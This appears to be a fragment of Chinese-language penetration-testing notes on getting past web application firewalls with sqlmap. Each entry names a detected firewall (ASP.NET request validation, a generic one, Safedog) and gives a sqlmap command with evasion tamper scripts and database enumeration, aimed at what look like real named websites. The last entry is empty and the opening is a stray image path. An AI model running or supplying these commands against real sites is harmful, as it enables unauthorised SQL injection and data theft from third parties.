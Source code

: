 WAF/IPS/IDS identified as 'ASP.NET RequestValidationMode (Microsoft)'

第二种： WAF/IPS/IDS identified as 'ASP.NET RequestValidationMode (Microsoft)'
```
sqlmap -u "http://member.niceloo.com/Project/ClassSearch.aspx?KeyWord=消防" --hpp -v3 -tamper "charunicodeencode.py,charencode.py" --thre
ad 10 --dbs

```

第三种：WAF/IPS/IDS identified as 'Generic (Unknown)'

```
C:\Users\Administrator>sqlmap -u "http://66123123.com/Goods/GoodsSearch?keyword=复印纸" --hpp -v3 -tamper "charunicodeencode.py,charencode.py,space2comment" --random-agent --flush-session --hex --thread 10

```

第四种： WAF/IPS/IDS identified as 'Safedog Web Application Firewall (Safedog)'
```


```